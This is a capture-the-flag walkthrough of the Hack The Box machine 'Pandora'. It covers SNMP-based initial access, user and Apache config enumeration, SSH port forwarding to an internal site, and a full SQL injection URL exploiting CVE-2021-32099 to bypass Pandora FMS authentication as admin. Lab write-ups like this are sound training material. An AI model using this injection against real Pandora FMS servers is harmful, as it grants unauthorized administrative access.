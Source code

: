 
## Initial Access

Initial access as user `daniel` made possible with SNMP information leakage.
![[Pasted image 20230131125103.png]]

---

## Local Enumeration

### Users from `/etc/passwd`
```c
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

Not many interesting writable files, scripts, etc. were found in searching for about 10 minutes.

### Apache Sites-available
`pandora.conf`
- Internal only website hosted
```c
daniel@pandora:/etc/apache2/sites-available$ cat pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

### Local Port Forwarding via ssh to gain access to local site.
- Forwarding 1080 on localhost to port 80 on panda.htb
```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 1080:localhost:80 daniel@10.10.11.136  
```

## Internal Website Enumeration

![[Pasted image 20230131215937.png]]

- Pandora FMS v 7.0NG.742_FIX_PERL2020
- Found article on potential vulnerability on this page https://cve.report/CVE-2021-32099 (which also, unfortunately has a spoiler for this box on it)
- Just entering the following URL will trick the application into authenticating your session as `admin`
```
http://localhost:1080/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

---